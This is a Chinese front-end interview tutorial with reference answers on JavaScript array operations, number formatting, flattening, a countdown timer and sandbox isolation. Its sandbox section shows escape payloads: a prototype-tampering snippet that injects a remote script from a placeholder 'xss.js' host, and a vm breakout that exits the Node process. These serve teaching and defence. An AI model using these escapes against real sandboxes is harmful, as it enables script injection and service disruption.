

# 第五章 第 17 节 前端基础-应用 3

> 原文：[`www.nowcoder.com/tutorial/10072/e512f4b66ffd468d92314eb3046d884a`](https://www.nowcoder.com/tutorial/10072/e512f4b66ffd468d92314eb3046d884a)

#### 8.6 js 中两个数组怎么取交集+(差集、并集、补集)

**参考答案：**

1.  最普遍的做法

    使用 **ES5** 语法来实现虽然会麻烦些，但兼容性最好，不用考虑浏览器 **JavaScript** 版本。也不用引入其他第三方库。

    直接使用 filter、concat 来计算

    ```cpp
    var a = [1,2,3,4,5]
    var b = [2,4,6,8,10]
    //交集
    var c = a.filter(function(v){ return b.indexOf(v) > -1 })
    //差集
    var d = a.filter(function(v){ return b.indexOf(v) == -1 })
    //补集
    var e = a.filter(function(v){ return !(b.indexOf(v) > -1) })
            .concat(b.filter(function(v){ return !(a.indexOf(v) > -1)}))
    //并集
    var f = a.concat(b.filter(function(v){ return !(a.indexOf(v) > -1)}));
    ```

    对 Array 进行扩展

    ```cpp
    //数组功能扩展
    //数组迭代函数
    Array.prototype.each = function(fn){
      fn = fn || Function.K;
       var a = [];
       var args = Array.prototype.slice.call(arguments, 1);
       for(var i = 0; i < this.length; i++){
           var res = fn.apply(this,[this[i],i].concat(args));
           if(res != null) a.push(res);
       }
       return a;
    };

    //数组是否包含指定元素
    Array.prototype.contains = function(suArr){
      for(var i = 0; i < this.length; i ++){
          if(this[i] == suArr){
              return true;
          }
       }
       return false;
    }

    //不重复元素构成的数组
    Array.prototype.uniquelize = function(){
       var ra = new Array();
       for(var i = 0; i < this.length; i ++){
          if(!ra.contains(this[i])){
              ra.push(this[i]);
          }
       }
       return ra;
    };

    //两个数组的交集
    Array.intersect = function(a, b){
       return a.uniquelize().each(function(o){return b.contains(o) ? o : null});
    };

    //两个数组的差集
    Array.minus = function(a, b){
       return a.uniquelize().each(function(o){return b.contains(o) ? null : o});
    };

    //两个数组的补集
    Array.complement = function(a, b){
       return Array.minus(Array.union(a, b),Array.intersect(a, b));
    };

    //两个数组并集
    Array.union = function(a, b){
       return a.concat(b).uniquelize();
    };
    ```

2.  使用 ES6 语法实现

    **ES6** 中可以借助扩展运算符（**...**）以及 **Set** 的特性实现相关计算，代码也会更加简单些。

    ```cpp
    var a = [1,2,3,4,5]
    var b = [2,4,6,8,10]
    console.log("数组 a：", a);
    console.log("数组 b：", b);

    var sa = new Set(a);
    var sb = new Set(b);

    // 交集
    let intersect = a.filter(x => sb.has(x));

    // 差集
    let minus = a.filter(x => !sb.has(x));

    // 补集
    let complement  = [...a.filter(x => !sb.has(x)), ...b.filter(x => !sa.has(x))];

    // 并集
    let unionSet = Array.from(new Set([...a, ...b]));
    ```

3.  使用 jQuery 实现

    ```cpp
    var a = [1,2,3,4,5]
    var b = [2,4,6,8,10]
    console.log("数组 a：", a);
    console.log("数组 b：", b);

    // 交集
    let intersect = $(a).filter(b).toArray();
    // 差集
    let minus = $(a).not(b).toArray();
    // 补集
    let complement  = $(a).not(b).toArray().concat($(b).not(a).toArray());
    // 并集
    let unionSet = $.unique(a.concat(b));
    ```

#### 8.7 用正则和非正则实现 123456789.12=》1，234，567，890.12

**参考答案：**

非正则：

​ 如果数字带有小数点的话，可以使用 toLocaleString()方法实现这个需求。

```cpp
b.toLocaleString();
```

正则：

1.  不带小数点

    ```cpp
    num.toString().replace(/(\d)(?=(?:\d{3})+$)/g,'$1,')
    ```

2.  带小数点

*   判读是否带有小数点
*   没有小数点，就用正则匹配实

```cpp
function numFormat(num) {
    var c = (num.toString().indexOf ('.') !== -1) ? num.toLocaleString() : 
             num.toString().replace(/(\d)(?=(?:\d{3})+$)/g, '$1,');
    return c;
}
```

#### 8.8 写一个判断是否是空对象的函数

**参考答案：**

```cpp
function isEmpty(value) {
    return (
        value === null || value === undefined ||
        (typeof value === 'object' && Object.keys(value).length === 0) 
    )
}
```

#### 8.9 代码题：颜色值 16 进制转 10 进制 rgb

**参考答案：**

```cpp
function toRGB(color) {
    var regex = /^#([0-9a-fA-F]{2})([0-9a-fA-F]{2})([0-9a-fA-F]{2})$/ //匹配十六进制的正则
    match = color.match(regex)  // 判断是否是十六进制颜色值
    return match ? 'rgb('+parseInt(match[1], 16)+','+parseInt(match[2], 16)+','+parseInt(match[3], 16)+')' : color
}
```

#### 8.10 传入 [1,[[2],3,4],5] ，返回 [1,2,3,4,5]

**参考答案：**

**递归**

我们最一开始能想到的莫过于循环数组元素，如果还是一个数组，就递归调用该方法：

```cpp
// 方法 1
var arr = [1, [2, [3, 4]]];

function flatten(arr) {
    var result = [];
    for (var i = 0, len = arr.length; i < len; i++) {
        if (Array.isArray(arr[i])) {
            result = result.concat(flatten(arr[i]))
        }
        else {
            result.push(arr[i])
        }
    }
    return result;
}
console.log(flatten(arr))
```

**toString**

如果数组的元素都是数字，那么我们可以考虑使用 toString 方法，因为：

```cpp
[1, [2, [3, 4]]].toString() // "1,2,3,4"
```

调用 toString 方法，返回了一个逗号分隔的扁平的字符串，这时候我们再 split，然后转成数字不就可以实现扁平化了吗？

```cpp
// 方法 2
var arr = [1, [2, [3, 4]]];

function flatten(arr) {
    return arr.toString().split(',').map(function(item){
        return +item
    })
}

console.log(flatten(arr))
```

然而这种方法使用的场景却非常有限，如果数组是 [1, '1', 2, '2'] 的话，这种方法就会产生错误的结果。

**reduce**

既然是对数组进行处理，最终返回一个值，我们就可以考虑使用 reduce 来简化代码：

```cpp
// 方法 3
var arr = [1, [2, [3, 4]]];

function flatten(arr) {
    return arr.reduce(function(prev, next){
        return prev.concat(Array.isArray(next) ? flatten(next) : next)
    }, [])
}
console.log(flatten(arr))
```

**...**

ES6 增加了扩展运算符，用于取出参数对象的所有可遍历属性，拷贝到当前对象之中：

```cpp
var arr = [1, [2, [3, 4]]];
console.log([].concat(...arr)); // [1, 2, [3, 4]]
```

我们用这种方法只可以扁平一层，但是顺着这个方法一直思考，我们可以写出这样的方法：

```cpp
// 方法 4
var arr = [1, [2, [3, 4]]];

function flatten(arr) {

    while (arr.some(item => Array.isArray(item))) {
        arr = [].concat(...arr);
    }

    return arr;
}

console.log(flatten(arr))
```

**undercore**

那么如何写一个抽象的扁平函数，来方便我们的开发呢，所有又到了我们抄袭 underscore 的时候了~

在这里直接给出源码和注释，但是要注意，这里的 flatten 函数并不是最终的 _.flatten，为了方便多个 API 进行调用，这里对扁平进行了更多的配置。

```cpp
/**
 * 数组扁平化
 * @param  {Array} input   要处理的数组
 * @param  {boolean} shallow 是否只扁平一层
 * @param  {boolean} strict  是否严格处理元素，下面有解释
 * @param  {Array} output  这是为了方便递归而传递的参数
 * 源码地址：https://github.com/jashkenas/underscore/blob/master/underscore.js#L528
 */
function flatten(input, shallow, strict, output) {

    // 递归使用的时候会用到 output
    output = output || [];
    var idx = output.length;

    for (var i = 0, len = input.length; i < len; i++) {

        var value = input[i];
        // 如果是数组，就进行处理
        if (Array.isArray(value)) {
            // 如果是只扁平一层，遍历该数组，依此填入 output
            if (shallow) {
                var j = 0, length = value.length;
                while (j < length) output[idx++] = value[j++];
            }
            // 如果是全部扁平就递归，传入已经处理的 output，递归中接着处理 output
            else {
                flatten(value, shallow, strict, output);
                idx = output.length;
            }
        }
        // 不是数组，根据 strict 的值判断是跳过不处理还是放入 output
        else if (!strict){
            output[idx++] = value;
        }
    }

    return output;

}
```

解释下 strict，在代码里我们可以看出，当遍历数组元素时，如果元素不是数组，就会对 strict 取反的结果进行判断，如果设置 strict 为 true，就会跳过不进行任何处理，这意味着可以过滤非数组的元素，举个例子：

```cpp
var arr = [1, 2, [3, 4]];
console.log(flatten(arr, true, true)); // [3, 4]
```

那么设置 strict 到底有什么用呢？不急，我们先看下 shallow 和 strct 各种值对应的结果：

*   shallow true + strict false ：正常扁平一层
*   shallow false + strict false ：正常扁平所有层
*   shallow true + strict true ：去掉非数组元素
*   shallow false + strict true ： 返回一个[]

我们看看 underscore 中哪些方法调用了 flatten 这个基本函数：

**_.flatten**

首先就是 _.flatten：

```cpp
_.flatten = function(array, shallow) {
    return flatten(array, shallow, false);
};
```

在正常的扁平中，我们并不需要去掉非数组元素。

**_.union**

接下来是 _.union：

该函数传入多个数组，然后返回传入的数组的并集，

举个例子：

```cpp
_.union([1, 2, 3], [101, 2, 1, 10], [2, 1]);
=> [1, 2, 3, 101, 10]
```

如果传入的参数并不是数组，就会将该参数跳过：

```cpp
_.union([1, 2, 3], [101, 2, 1, 10], 4, 5);
=> [1, 2, 3, 101, 10]
```

为了实现这个效果，我们可以将传入的所有数组扁平化，然后去重，因为只能传入数组，这时候我们直接设置 strict 为 true，就可以跳过传入的非数组的元素。

```cpp
// 关于 unique 可以查看《JavaScript 专题之数组去重》[](https://github.com/mqyqingfeng/Blog/issues/27)
function unique(array) {
   return Array.from(new Set(array));
}

_.union = function() {
    return unique(flatten(arguments, true, true));
}
```

**_.difference**

是不是感觉折腾 strict 有点用处了，我们再看一个 _.difference：

语法为：

```cpp
_.difference(array, *others)
```

效果是取出来自 array 数组，并且不存在于多个 other 数组的元素。跟 _.union 一样，都会排除掉不是数组的元素。

举个例子：

```cpp
_.difference([1, 2, 3, 4, 5], [5, 2, 10], [4], 3);
=> [1, 3]
```

实现方法也很简单，扁平 others 的数组，筛选出 array 中不在扁平化数组中的值：

```cpp
function difference(array, ...rest) {

    rest = flatten(rest, true, true);

    return array.filter(function(item){
        return rest.indexOf(item) === -1;
    })
}
```

#### 8.11 倒计时，一开始就进行

**参考答案：**

题意：一旦进入页面倒计时就开始，因此在 window.onload 方法中调用倒计时方法

```cpp
<script>
      window.onload = function () {
          countDown();
          function addZero(i) {
              return i < 10 ? "0" + i: i + "";
          }
          function countDown() {
              var nowtime = new Date();
              var endtime = new Date("2019/03/16,17:57:00");
              var lefttime = parseInt((endtime.getTime() - nowtime.getTime()) / 1000);
              var d = parseInt(lefttime / (24*60*60))
              var h = parseInt(lefttime / (60 * 60) % 24);
              var m = parseInt(lefttime / 60 % 60);
              var s = parseInt(lefttime % 60);
              d = addZero(d)
              h = addZero(h);
              m = addZero(m);
              s = addZero(s);
              document.querySelector(".count").innerHTML = `活动倒计时  ${d}天 ${h} 时 ${m} 分 ${s} 秒`;
              if (lefttime <= 0) {
                  document.querySelector(".count").innerHTML = "活动已结束";
                  return;
              }
              setTimeout(countDown, 1000);
            }
        }
    </script>
```

#### 8.12 沙箱隔离怎么做的什么原理

**参考答案：**

沙箱，即 sandbox，顾名思义，就是让你的程序跑在一个隔离的环境下，不对外界的其他程序造成影响，通过创建类似沙盒的独立作业环境，在其内部运行的程序并不能对硬盘产生永久性的影响。

实现沙箱的三种方法

1.  借助 with + new Function

首先从最简陋的方法说起，假如你想要通过 eval 和 function 直接执行一段代码，这是不现实的，因为代码内部可以沿着作用域链往上找，篡改全局变量，这是我们不希望的，所以你需要让沙箱内的变量访问都在你的监控范围内；不过，你可以使用 with API，在 with 的块级作用域下，变量访问会优先查找你传入的参数对象，之后再往上找，所以相当于你变相监控到了代码中的“变量访问”：

```cpp
function compileCode (src) {    
  src = 'with (exposeObj) {' + src + '}'  
  return new Function('exposeObj', src)   
}
```

接下里你要做的是，就是暴露可以被访问的变量 exposeObj，以及阻断沙箱内的对外访问。通过 es6 提供的 proxy 特性，可以获取到对对象上的所有改写：

```cpp
function compileCode (src) {    
  src = `with (exposeObj) { ${src} }` 
  return new Function('exposeObj', src)   
} 
function proxyObj(originObj){ 
    let exposeObj = new Proxy(originObj,{ 
        has:(target,key)=>{ 
            if(["console","Math","Date"].indexOf(key)>=0){  
                return target[key]  
            } 
            if(!target.hasOwnProperty(key)){  
                throw new Error(`Illegal operation for key ${key}`) 
            } 
            return target[key]  
        },
    })  
    return exposeObj  

} 
function createSandbox(src,obj){  
 let proxy = proxyObj(obj)  
 compileCode(src).call(proxy,proxy) //绑定 this 防止 this 访问 window 
}
```

通过设置 has 函数，可以监听到变量的访问，在上述代码中，仅暴露个别外部变量供代码访问，其余不存在的属性，都会直接抛出 error。其实还存在 get、set 函数，但是如果 get 和 set 函数只能拦截到当前对象属性的操作，对外部变量属性的读写操作无法监听到，所以只能使用 has 函数了。接下来我们测试一下：

```cpp
const testObj = { 
    value:1,  
    a:{ 
        b:  
    } 
} 
createSandbox("value='haha';console.log(a)",testObj)
```

看起来一切似乎没有什么问题，但是问题出在了传入的对象，当调用的是 console.log(a.b)的时候，has 方法是无法监听到对 b 属性的访问的，假设所执行的代码是不可信的，这时候，它只需要通过 a.b.**proto**就可以访问到 Object 构造函数的原型对象，再对原型对象进行一些篡改，例如将 toString 就能影响到外部的代码逻辑的。

```cpp
createSandbox(` 
a.b.__proto__.toString = ()=>{  
 new (()=>{}).constructor("var script = document.createElement('script'); 
 script.src = 'http://xss.js';
 script.type = 'text/javascript'; 
 document.body.appendChild(script);")() 
}
`,testObj)  
console.log(testObj.a.b.__proto__.toString())
```

例如上面所展示的代码，通过访问原型链的方式，实现了沙箱逃逸，并且篡改了原型链上的 toString 方法，一旦外部的代码执行了 toString 方法，就可以实现 xss 攻击，注入第三方代码；由于在内部定义执行的函数代码逻辑，仍然会沿着作用于链查找，为了绕开作用域链的查找，笔者通过访问箭头函数的 constructor 的方式拿到了构造函数 Function，这个时候，Funtion 内所执行的 xss 代码，在执行的时候，便不会再沿着作用域链往上找，而是直接在全局作用域下执行，通过这样的方式，实现了沙箱逃逸以及 xss 攻击。

你可能会想，如果我切断原型链的访问，是否就杜绝了呢？的确，你可以通过 Object.create(null)的方式，传入一个不含有原型链的对象，并且让暴露的对象只有一层，不传入嵌套的对象，但是，即使是基本类型值，数字或字符串，同样也可以通过**proto**查找到原型链，而且，即使不传入对象，你还可以通过下面这种方式绕过：

```cpp
({}).__proto__.toString= ()=>{console.log(111)};
```

可见，new Function + with 的这种沙箱方式，防君子不防小人，当然，你也可以通过对传入的 code 代码做代码分析或过滤？假如传入的代码不是按照的规定的数据格式（例如 json），就直接抛出错误，阻止恶意代码注入，但这始终不是一种安全的做法。

2.  借助 iframe 实现沙箱

前面介绍一种劣质的、不怎么安全的方法构造了一个简单的沙箱，但是在前端最常见的方法，还是利用 iframe 来构造一个沙箱

```cpp
<iframe sandbox src="..."></iframe>
```

​ 但是这也会带来一些限制：

1.  script 脚本不能执行

2.  不能发送 ajax 请求

3.  不能使用本地存储，即 localStorage,cookie 等

4.  不能创建新的弹窗和 window

5.  不能发送表单

6.  不能加载额外插件比如 flash 等

    不过别方，你可以对这个 iframe 标签进行一些配置：

    

接下里你只需要结合 postMessage API，将你需要执行的代码，和需要暴露的数据传递过去，然后和你的 iframe 页面通信就行了。

1）需要注意的是，在子页面中，要注意不要让执行代码访问到 contentWindow 对象，因为你需要调用 contentWindow 的 postMessageAPI 给父页面传递信息，假如恶意代码也获取到了 contentWindow 对象，相当于就拿到了父页面的控制权了，这个时候可大事不妙。

2）当使用 postMessageAPI 的时候，由于 sandbox 的 origin 默认为 null，需要设置 allow-same-origin 允许两个页面进行通信，意味着子页面内可以发起请求，这时候需要防范好 CSRF，允许了同域请求，不过好在，并没有携带上 cookie。

3）当调用 postMessageAPI 传递数据给子页面的时候，传输的数据对象本身已经通过结构化克隆算法复制

简单的说，通过 postMessageAPI 传递的对象，已经由浏览器处理过了，原型链已经被切断，同时，传过去的对象也是复制好了的，占用的是不同的内存空间，两者互不影响，所以你不需要担心出现第一种沙箱做法中出现的问题。

3.  nodejs 中的沙箱

nodejs 中使用沙箱很简单，只需要利用原生的 vm 模块，便可以快速创建沙箱，同时指定上下文。

```cpp
const vm = require('vm'); 
const x = 1;  
const sandbox = { x: 2 }; 
vm.createContext(sandbox); // Contextify the sandbox. 
const code = 'x += 40; var y = 17;';  
vm.runInContext(code, sandbox); 
console.log(sandbox.x); // 42 
console.log(sandbox.y); // 17 
console.log(x); // 1;   y is not defined.
```

vm 中提供了 runInNewContext、runInThisContext、runInContext 三个方法，三者的用法有个别出入，比较常用的是 runInNewContext 和 runInContext，可以传入参数指定好上下文对象。

但是 vm 是绝对安全的吗？不一定。

```cpp
const vm = require('vm'); 
vm.runInNewContext("this.constructor.constructor('return process')().exit()")
```

通过上面这段代码，我们可以通过 vm，停止掉主进程 nodejs，导致程序不能继续往下执行，这是我们不希望的，解决方案是绑定好 context 上下文对象，同时，为了避免通过原型链逃逸（nodejs 中的对象并没有像浏览器端一样进行结构化复制，导致原型链依然保留），所以我们需要切断原型链，同时对于传入的暴露对象，只提供基本类型值。

```cpp
let ctx = Object.create(null);  
ctx.a = 1; // ctx 上不能包含引用类型的属性 
vm.runInNewContext("this.constructor.constructor('return process')().exit()", ctx);
```

让我们来看一下 TSW 中是怎么使用的：

```cpp
const vm = require('vm'); 
const SbFunction = vm.runInNewContext('(Function)', Object.create(null));        // 沙堆  
... 
if (opt.jsonpCallback) {  
  code = `var result=null; var ${opt.jsonpCallback}=function($1){result=$1}; ${responseText}; return result;`;  
  obj = new SbFunction(code)(); 
}   
... 
```

通过 runInNewContext 返回沙箱中的构造函数 Function，同时传入切断原型链的空对象防止逃逸，之后再外部使用的时候，只需要调用返回的这个函数，和普通的 new Function 一样调用即可。